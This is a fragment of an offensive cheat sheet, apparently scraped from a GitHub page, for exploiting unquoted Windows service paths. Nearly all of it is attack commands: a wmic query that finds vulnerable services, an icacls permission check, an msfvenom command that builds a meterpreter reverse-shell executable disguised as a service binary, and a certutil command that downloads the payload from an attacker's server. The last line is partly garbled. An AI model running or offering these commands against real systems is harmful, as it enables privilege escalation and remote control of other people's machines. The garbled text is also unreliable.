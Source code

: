 ### # Exploiting unquoted service paths : 

wmic service get name, displayname, pathname, startmode | findstr /i /v "C:\" | findstr /i /v """

**icacls “unquoted service path”**

**msfvenom -p windows/x64/meterpreter/reverse_tcp -f exe LHOST=<attackerIP> LPORT=<port> -o cygrunsrv.exe**

certutil.exe -f -URLcache attacker http://IP:8000/cygrunsrv.exe shell.exe       =       wget 
